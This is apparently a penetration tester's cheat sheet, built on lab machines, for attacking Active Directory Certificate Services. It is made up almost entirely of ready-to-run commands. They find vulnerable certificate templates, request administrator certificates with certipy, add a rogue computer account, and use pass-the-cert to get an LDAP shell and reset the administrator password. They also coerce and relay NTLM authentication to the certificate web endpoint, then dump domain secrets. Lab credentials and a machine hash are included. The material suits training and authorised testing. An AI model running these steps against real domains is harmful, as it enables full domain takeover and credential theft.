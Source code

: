 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>

<details>

<summary>Exploitation (NTLM Relay to ADCS HTTP Endpoints)</summary>

```bash
# Finding ESC8 Vulnerability (Web Enrollment over HTTP)
certipy-ad find -u 'adam@corp.com' -p lab -dc-ip 192.168.167.60 -enabled
cat 20250705224614_Certipy.txt
```

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption><p>DomainController certificate template is a default template in ADCS and allows both Client and Server Authentication</p></figcaption></figure>

```bash
# Coerce DC (.60) to authenticate with us (.245) via NTLM, (.61) is CA --> relay authentication for certificate request:
impacket-ntlmrelayx -t http://192.168.167.61/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

coercer coerce --target-ip 192.168.167.60 --l 192.168.45.245 -u adam -p lab --filter-method-name EfsRpcAddUsersToFile
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption><p>Obtained a certificate based on the DomainController certificate template in a pfx format.</p></figcaption></figure>

```bash
# Authenticate to DC as DC machine account with Certipy
certipy-ad auth -pfx DC08$.pfx -dc-ip 192.168.167.60
```

<figure><img src=".gitbook/assets/image (370).png" alt=""><figcaption><p>Got DC machine account and hash</p></figcaption></figure>

```bash
impacket-secretsdump corp.com/'dc08$'@192.168.167.60 -hashes :0e0b464f36ca316cbd3170dad42bea33
```

<figure><img src=".gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

</details>
